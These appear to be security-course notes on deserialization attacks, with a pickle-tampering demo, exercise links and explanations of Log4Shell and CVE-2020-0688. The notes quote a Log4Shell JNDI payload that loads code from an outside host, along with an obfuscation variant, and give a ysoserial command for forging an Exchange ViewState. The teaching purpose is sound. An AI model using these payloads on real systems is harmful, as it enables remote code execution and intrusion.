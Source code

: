 * Deserialization attacks

* Intro

- serialization/deserialization is a widely-used concept in modern
  languages for storing objects (structured data)

#+begin_src python
# example in Python:
import pickle

class A:
    def __init__(self, x):
        print("construct " + x)
        self.x = x
    
    def __del__(self):
        print("destruct " + self.x)
#+end_src

#+begin_src python
# Serialize the class
a = A("hello")
a_bytes = pickle.dumps(a)
del(a)
#+end_src

#+begin_example
construct hello
destruct hello
#+end_example

#+begin_src python
# Deserialize the class
print(a_bytes)
a_bytes = a_bytes[:-5] + b'a' + a_bytes[-4:]
a = pickle.loads(a_bytes)
del(a)
#+end_src

#+begin_example
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01A\x94\x93\x94)\x81\x94}\x94\x8c\x01x\x94\x8c\x05hello\x94sb.'
destruct hella
#+end_example

** The problem?

Object integrity is lost once you pass it through some untrusted
channel - give it to the user to store some temporary data (think
authentication cookies stored this way) - send over the network - store
it in a database

** The solution?

- sanity checks required: e.g. cryptographically sign serialized objects
  to maintain integrity
- Java (e.g. RMI) does type checking: the receiving end deserializes the
  object, checks the type, if the type does not match then destroy the
  object

** OWASP resources

- [[https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/][A08:2021 -- Software and Data Integrity Failures]]
- [[https://www.owasp.org/index.php/Deserialization_Cheat_Sheet][Deserialization cheatsheet]]

* Exercise: OWASP WebGoat

*note* WebGoat seems to be broken, see [[https://github.com/WebGoat/WebGoat/blob/main/src/main/java/org/dummy/insecure/framework/VulnerableTaskHolder.java#L12][VulnerableTaskHolder.java]]

- highly recommend getting/using Kali-Linux (consider getting it as a Virtual Machine(VM)).
  as it holds useful tools, and keeps the work in one environment.
- Run the following docker image:
  https://hub.docker.com/r/webgoat/goatandwolf
- Go through A08 - software and data integrity


** Exercise: do Natas 26

http://natas26.natas.labs.overthewire.org/
- Hint: read the introduction to Natas, you will need some of this info. 
If Web security is very new, consider starting at Natas0 and work your way up. Try to get a hold of the basics. 


#+begin_example
(Experienced/advanced)
username = natas26
password = 8A506rfIAXbKKk68yJeuTuRq4UfcK70k
#+end_example

** Remote Code Execution with destructors

- RMI receives an object of a class present in your classpath
- constructs the object, checks the type (mismatch), destroys the object
- the destructor executes arbitrary code from the user
- if anywhere in your classpath you have an object that executes
  arbitrary code upon destruction, you have a path to RCE

** Exercise: Deserialize to B()

[[./code/3-deserialization/Serial.java][Serial.java]]

** Exercise: Serial Killer

- download ysoserial
- go to
  https://github.com/archang31/aacs4-writeups/tree/master/BinaryExploitation/SerialKiller

** log4shell [[[https://en.wikipedia.org/wiki/Log4Shell#Behavior][wikipedia]]]


#+begin_quote
The Java Naming and Directory Interface (JNDI) allows for lookup of Java
objects at program runtime given a path to their data. [...]
#+end_quote

#+begin_quote
In the default configuration, when logging a string, Log4j 2 performs
string substitution on expressions of the form =${prefix:name}=. [...]
Among the recognized expressions is =${jndi:<lookup>};= by specifying
the lookup to be through LDAP, an arbitrary URL may be queried and
loaded as Java object data. =${jndi:ldap://example.com/file}= [...] will
load data from that URL if connected to the Internet. By inputting a
string that is logged, an attacker can load and execute malicious code
hosted on a public URL. [...]
#+end_quote

#+begin_quote
Because HTTP requests are frequently logged, a common attack vector is
placing the malicious string in the HTTP request URL or a commonly
logged HTTP header, such as User-Agent.
#+end_quote

#+begin_quote
Early mitigations included blocking any requests containing potentially
malicious contents, such as =${jndi=. Such basic string matching
solutions can be circumvented by obfuscating the request:
=${${lower:j}ndi=, for example, will be converted into a JNDI lookup
after performing the lowercase operation on the letter =j=. Even if an
input, such as a first name, is not immediately logged, it may be later
logged during internal processing and its contents executed.
#+end_quote

#+caption: log4shell diagra
[[file:img/log4j_attack.jpg]]

Source: [[https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/][Swiss CERT]]

More resources:
[[https://github.com/pentesterland/Log4Shell][pentesterland]]

** Exercise: exploit log4shell

- Join [[https://tryhackme.com/room/solar][tryhackme/solar]]
- Follow the [[https://www.youtube.com/watch?v=PGJVLjgC2e4][video walkthrough by cryptocat]]

* JEP 290

- [[http://openjdk.java.net/jeps/290][JEP 290]]
- [[https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/][Attacking Java RMI services after JEP 290]]

** [[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688][CVE-2020-0688]]: RCE on MS Exchange

- Released Feb.25 2020

- Exchange servers had the same =validationKey= and =decryptionKey= on
  all installs

- =ViewState= is server-side data that ASP.NET web applications store in
  serialized format on the client
  [[file:img/4-deserialization-attacks_files/image.png]]

- Having access to the secret keys (it was the same for all MS Exchange
  installs) it was possible to craft a malicious =ViewState= that runs
  arbitrary code on the server:

#+begin_example
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo OOOPS!!! > c:/Vuln_Server.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
#+end_example

[[file:img/4-deserialization-attacks_files/exchange.png]]

Source: [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Zero Day Initiative]]

* Back to first principles

#+caption: image.png
[[file:img/4-deserialization-attacks_files/image.png]]

* References

- [[http://frohoff.github.io/appseccali-marshalling-pickles/][Marshalling Pickles (Slides + Video)]]
- [[https://github.com/frohoff/ysoserial][ysoserial: Deserialization attack framework for Java]]
- [[https://github.com/pwntester/ysoserial.net][ysoserial.net: .NET deserialization attack framework]]
- [[https://paper.bobylive.com/Meeting_Papers/BlackHat/USA-2012/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf][Are you my type - blackhat 2012]]
- [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Remote code execution on Microsoft Exchange]]
- [[https://www.youtube.com/watch?v=w2F67LbEtnk][Log4j vulnerability explained]]
- https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/
